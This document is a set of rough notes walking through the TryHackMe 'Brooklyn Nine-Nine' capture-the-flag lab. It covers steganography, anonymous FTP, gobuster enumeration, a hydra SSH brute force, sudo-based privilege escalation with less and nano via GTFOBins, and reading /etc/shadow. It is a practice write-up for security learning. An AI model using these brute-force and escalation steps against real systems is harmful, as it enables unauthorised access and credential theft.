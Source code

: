 Rough Notes - Brooklyn Nine-Nine - TryHackMe CTF

Webpage

[Back to Table of Contents](../cysec)

- Source code --> clue that photo has steg hidden

Steg
- Photo reveals a password for user holt

NMAP
-ssh,ftp
- ftp server allows anonymous
- text file --> clue that jake has weak password

gobuster
gobuster -u 10.10.153.36 -w /home/aes18/Documents/CS/Tools/Kali/dirbuster/wordlists/directory-list-1.0.txt -x php,js,py,html,exe,zip,jpg,png,conf,db
- nothing

hydra 
- brute force ssh for user jake, password found quickly

foothold on  SSH

sudo -l --> usr/bin/less
/usr/bin/less /root/root.txt --> flag


cd /home 
cd jake 
cd holt --> flag 

su holt --> password from before

sudo -l
/usr/bin/nano 

GTFOBins --> nano --> root 
sudo nano
^R^X
reset; sh 1>&0 2>&0

cat /etc/shadow --> amy hash

cd /var/www/html --> see photo.jpg
python3 -m http.server --> download photo.jpg 
stegseek --> "Stillnoob was here" -- rabbit hole





